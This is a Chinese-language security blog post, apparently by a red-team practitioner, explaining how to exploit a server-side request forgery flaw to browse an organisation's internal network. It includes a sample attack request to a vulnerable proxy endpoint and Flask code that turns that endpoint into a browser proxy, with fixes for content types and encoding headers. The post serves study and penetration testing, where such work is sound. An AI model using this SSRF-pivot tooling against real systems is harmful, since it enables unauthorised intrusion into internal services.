


SSRF漏洞配合Flask的巧妙利用 - 内网漫游
SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务...
SSRF 服务器请求伪造
SSRF(Server-side Request Forge, 服务端请求伪造)。由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。
常见的功能点

- Net-NTLM && NTLM Relay
- 获取服务器真实IP
- 端口扫描
- 网页代理
- ……
网页代理 - HTTP Proxy

客户端应用HTTP代理后，可通过代理服务器访问内网HTTP协议资源
而在SSRF场景，需要SSRF具备支持HTTP两大请求方式：GET、POST，且有响应Body
POST /application/services/proxy/doPostAndGet HTTP/1.1
Host: app.domain.com
Connection: keep-alive
Content-Length: XX
Content-Type: application/json
Accept: */*
Referer: http://app.domain.com/application/portal/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
{
"url":"http://domain.com/sso?login",
"method":"post",
"jsonBody":"{\"username\":\"123456\"}"
}
Flask 框架

Flask是一个用Python编写的Web应用程序框架，它基于Werkzeug WSGI工具包和Jinja2模板引擎。
Flask也被称为“microframework” ，因为它使用简单的核心，用extension增加其他功能，它没有默认使用的数据库、窗体验证工具。
from flask import Flask
app = Flask(__name__)
@app.route('/')
def hello_world():
return 'Hello, World!'

$ export FLASK_APP=hello.py
$ python -m flask run
* Running on http://127.0.0.1:5000/
Flask 框架的请求流程
- befor_first_request
- befor_request
- after_request
- teardown_request → 异常处理
- after_this_request

from flask import Flask, request, Response
import requests
app = Flask(__name__)
@app.before_request
def _proxy(*args, **kwargs):
resp = requests.request(
method=request.method,
url=request.url,
headers={key: value for (key, value) in request.headers},
data=request.get_data(),
cookies=request.cookies,
allow_redirects=False)
excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
headers = [(name, value) for (name, value) in resp.raw.headers.items()
if name.lower() not in excluded_headers]
response = Response(resp.content, resp.status_code, headers)
return response
if __name__ == "__main__":
app.run(debug=True)
Flask的默认端口是：5000

插件名称：SwitchyOmega

通过把代理服务器设置为5000（Flask默认）端口，浏览器的所有请求都会经过这五个装饰器，在每个装饰器中，可以写自己的检测规则。由于许多的SSRF漏洞接口返回的Content-Type始终都是一样的，因此会产生图片、JS等静态文件无法加载，下面我们将解决这个问题。
解决文件类型问题
遇到这个问题，首先分析浏览器为什么无法加载。
- SSRF漏洞接口返回的Content-Type是Json，那么我们还需要将Json转化为一个字典，把DATA取出。
- 根据SSRF漏洞请求的URI来定义MIME Type，Response返回对应的MIME Type即可解决
def get_filetype(url):
content_type = 'text/html'
response_mimetype = {
'.png':'image/png',
'.js':'application/javascript',
'.jpg':'image/jpeg',
'.gif': 'image/gif',
'.jpeg':'image/jpeg',
'.ico':'image/x-icon',
'.css':'text/css',
'.svg':'image/svg+xml',
}
disassembled = urlparse(url)
filename, file_ext = splitext(basename(disassembled.path))
content_type = response_mimetype.get(file_ext, 'text/html')
return content_type
这里定义了一些常见的MIME类型，通过截取URI的文件扩展名来找到对应的MIME类型，默认找不到就以HTML返回，不知道还有没有更赞的办法，如果有欢迎分享。
Content-Encoding问题
Accept-Encoding 和Content-Encoding是HTTP中用来对采用哪种编码格式传输正文进行协定的一对头部字段。
通过SSRF漏洞接口返回的通常可能是附带Content-Encoding头的响应，但与SSRF目标返回的不匹配，会造成网页展示不完全的情况。（本质上是接口取回的内容已经是解码后的，但接口本身可能又有编码头）
excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
headers = [(name, value) for (name, value) in resp.raw.headers.items()
if name.lower() not in excluded_headers]
这里的解决方式是剔除编码头 Content-Encoding。
网络安全爱好者、安全工具开发者
现阶段在进行红队相关的工作，我的博客会记录一些我的学习过程和部分安全技术研究成果。